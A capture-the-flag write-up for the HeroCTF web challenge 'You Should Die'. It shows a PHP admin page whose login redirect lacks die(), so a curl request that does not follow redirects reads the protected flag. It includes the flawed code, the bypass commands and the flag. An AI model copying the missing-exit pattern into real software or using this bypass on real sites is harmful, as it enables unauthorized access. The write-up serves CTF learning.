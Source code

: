 # You Should Die

### Category

Web

### Description

Could you retrieve the flag from this Marketing company ?

URL : http://chall1.heroctf.fr:9000

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

If you look at the source code of the page, you can see this HTML comment :

```html
<!--
    For developper :
        Do not forget to remove admin.php.bak !
    
    Regards,
    Security Team
-->
```

**admin.php.bak** :

```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```

So, if we are not logged in, the page will redirect us to **/index.php**. But the correct code should be :

```php
if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
    die();
}
```

As the **die()** function is missing, the rest of the page is still executed.

If we use **curl** to get the **/admin.php** page with **-L** for **follow redirection**, we obtain the **/index.php** page.

```html
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php" -L | head
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <meta name="description" content="" />
        <meta name="author" content="" />
        <title>Mark3ting agency</title>
        <link rel="icon" type="image/x-icon" href="assets/img/favicon.ico" />
        <!-- Font Awesome icons (free version)-->
```

However, if we do not want to follow redirection, we see the rest of the page.

```shell
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php"
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
